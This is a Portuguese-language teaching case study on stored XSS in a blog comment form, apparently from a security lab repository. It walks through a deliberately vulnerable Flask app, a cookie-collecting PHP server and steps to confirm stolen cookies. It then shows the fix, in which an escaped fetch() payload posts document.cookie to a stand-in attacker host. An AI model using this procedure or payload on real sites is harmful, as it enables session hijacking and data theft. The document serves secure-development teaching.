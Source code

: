 # Estudo de Caso: Vulnerabilidade em Formulário de Comentários (Sugestão: Utilizar o SO Kali, Linux ou equivalentes)

# Ataque de XSS persistente:
Um ataque de XSS persistente ocorre quando um script malicioso é injetado e armazenado no servidor de um site vulnerável, como em um campo de comentário ou perfil de usuário, e é então executado no navegador de qualquer usuário que acesse o conteúdo afetado. Este tipo de ataque é também conhecido como XSS armazenado e é considerado o mais perigoso, pois não requer uma interação direta ou um link malicioso da vítima, podendo afetar muitos usuários sem que eles saibam, e o script malicioso pode roubar informações confidenciais ou tomar controle do navegador do usuário. 
Como funciona um ataque de XSS persistente

Injeção do código: Um invasor injeta um script malicioso (payload) em um campo de entrada de um site, como um fórum de mensagens, comentários de blogs ou perfis de usuários. 

Armazenamento: O script é então salvo permanentemente no servidor do site ou no banco de dados da aplicação web. 

Execução: Quando outros usuários visitam a página afetada, seus navegadores carregam o conteúdo com o script malicioso e o executam. 

Consequências
Roubo de dados: O script pode roubar cookies, credenciais de login ou outras informações sensíveis do usuário e enviá-las de volta ao invasor. 

Ataques mais amplos: Como o script é armazenado e executado automaticamente toda vez que a página é acessada, ele pode afetar um grande número de usuários simultaneamente. 

Comprometimento da sessão: Pode roubar o cookie de sessão do usuário, permitindo que o invasor tome controle da conta sem que a vítima precise fazer login. 

Exemplos de pontos de injeção 

Campos de comentários em um blog.

Perfis de usuários em redes sociais.

Fóruns de mensagens.

Campos de nome de usuário ou outros formulários de entrada.

Diferença para XSS refletido

Ao contrário de um ataque de XSS refletido, onde o script é enviado para a vítima através de um link malicioso e não é armazenado, um XSS persistente armazena o script, tornando-o um risco constante para qualquer usuário que visite a página. 

# Cenário:

Imagine uma aplicação de blog simples que permite aos usuários postar comentários em artigos. O formulário de comentários tem um campo de texto para o nome do usuário e outro para o conteúdo do comentário. O código do servidor recebe esses dados e os insere diretamente em uma página HTML que é exibida para outros usuários, sem qualquer tipo de validação ou sanitização.

Para executar o estudo de caso de vulnerabilidade em formulários de comentários e demonstrar o ataque de XSS persistente, você precisará simular o ambiente de uma aplicação web vulnerável.

A vulnerabilidade ocorre quando a aplicação não sanitiza a entrada do usuário antes de armazená-la no banco de dados e exibi-la para outros usuários.

# Passo 1: Simulação da Aplicação Vulnerável

Primeiro, você precisa de um código de servidor simples que tenha a vulnerabilidade. Usarei um exemplo em Python com o framework Flask, que é fácil de configurar.

Código Python (app.py):

Observação sobre a vulnerabilidade: A linha {{ comment | safe }} no template é intencionalmente vulnerável. O filtro | safe no Jinja2 (motor de template do Flask) desabilita a sanitização automática, fazendo com que o HTML injetado seja renderizado.

Executar: Precisa do python instalado 

(base) alex@iMac-de-Alex example_01 % python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 647-019-061



# Passo 2: Configurando o Servidor de Coleta de Cookies

Para demonstrar o roubo de cookies, você precisa de um servidor que "colete" as requisições maliciosas. Rodar o arquivo .php em um servidor Web (Ex.: Apache)

Código PHP (coletar_cookie.php):

Este script simplesmente pega o valor do cookie da URL e o salva em um arquivo de texto no servidor.

# Passo 3: Execução do Ataque

Com os dois servidores prontos, siga os passos abaixo para realizar o ataque:

Inicie o servidor da aplicação vulnerável: Execute python app.py no seu terminal. Ele estará rodando em http://127.0.0.1:5000.

Inicie o servidor de coleta de cookies: Coloque o arquivo coletar_cookie.php em um servidor web (como Apache ou Nginx) ou use uma ferramenta de tunelamento como o ngrok para expor seu servidor local à internet. Anote a URL.

Acesse a página vulnerável em http://127.0.0.1:5000.

Crie a carga maliciosa: No campo de comentário, insira o seguinte script ataca.html.
Substitua http://seu-servidor-de-coleta.com pela URL do seu servidor Flask.

Envie o comentário: Clique em "Enviar". A página irá recarregar e exibir a mensagem de sucesso.

Verifique o ataque: Volte para a página inicial da aplicação (http://127.0.0.1:5000). O navegador, ao renderizar o comentário, executará o script. Ele tentará carregar a imagem, o que fará uma requisição GET para o seu servidor de coleta, enviando o cookie.

Confirme o sucesso: Verifique o seu servidor de coleta. O arquivo cookies_roubados.txt deve ter sido criado e conter o cookie roubado.

# Passo 4: Correção

Arquivo -> app_corrigido.py

A função escape() (ou uma equivalente em outras linguagens/frameworks) converte caracteres especiais de HTML, como < e >, em suas entidades HTML correspondentes, como &lt; e &gt;.

Após a sanitização, a entrada do atacante se tornaria:

HTML

&lt;script&gt;
    fetch('http://servidor-do-atacante.com/roubar_dados', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            cookie: document.cookie,
            url: window.location.href
        })
    });
&lt;/script&gt;

O navegador do usuário, ao encontrar &lt; e &gt;, os interpretará como texto literal e não como tags HTML. O script não será executado, e o ataque de Cross-Site Scripting (XSS) terá sido prevenido.

# Conclusão

Este estudo de caso demonstra como a ausência de um controle de segurança simples, como a validação e sanitização de entrada, pode levar a uma vulnerabilidade crítica de XSS. A implementação desse controle em uma fase inicial de desenvolvimento (no SSDLC) é uma prática de baixo custo e alta eficácia para proteger os usuários e a integridade da aplicação.
